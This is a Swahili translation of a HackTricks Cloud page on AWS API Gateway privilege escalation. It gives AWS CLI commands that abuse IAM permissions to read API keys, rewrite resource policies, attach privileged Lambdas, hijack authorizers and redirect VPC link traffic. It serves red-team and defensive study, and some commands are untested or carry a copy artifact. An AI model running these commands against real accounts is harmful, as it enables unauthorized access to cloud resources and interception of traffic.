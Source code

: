 # AWS - Apigateway Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Apigateway

Kwa habari zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa kibali hiki unaweza kuzalisha funguo za API za APIs zilizowekwa (kwa kanda).
```bash
aws --region <region> apigateway create-api-key
```
**Athari Inayoweza Kutokea:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikiaji wa habari nyeti.

### `apigateway:GET`

Kwa kibali hiki unaweza kupata funguo za API zilizozalishwa za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Athari Inayowezekana:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikivu wa habari nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa idhini hizi, niwezekanavyo kurekebisha sera ya rasilimali ya API ili kujipatia ufikivu wa kuipiga simu na kutumia ufikivu wa API gateway unaweza kuwa nao (kama kuita lambda inayoweza kudhuriwa).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Matokeo Yanayowezekana:** Kwa kawaida, hutaweza kufanya privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikivu wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza ushirikishaji mpya kwenye API ya Gateway ya REST iliyopo na kazi ya Lambda ambayo ina jukumu la IAM iliyowekwa**. Mshambuliaji kisha **anaweza kuzindua kazi ya Lambda ili kutekeleza nambari ya kupindukia na labda kupata ufikivu wa rasilimali zilizounganishwa na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la Lambda function.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kurekebisha mwandishi wa API Gateway uliopo** ili kudukua ukaguzi wa usalama au kutekeleza nambari ya kupita wakati maombi ya API yanafanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kupitisha ukaguzi wa usalama, ufikiaji usioruhusiwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa ya `apigateway:UpdateVpcLink` anaweza **kurekebisha Kiungo cha VPC kilichopo ili kuelekeza kwenye Balansa ya Mzigo wa Mtandao tofauti, hivyo kubadilisha mwelekeo wa trafiki ya API ya kibinafsi kuelekea rasilimali zisizoruhusiwa au zenye nia mbaya**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Athari Inayoweza Kutokea**: Upatikanaji usioidhinishwa wa rasilimali za API za kibinafsi, udukuzi au kuvuruga trafiki ya API.

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
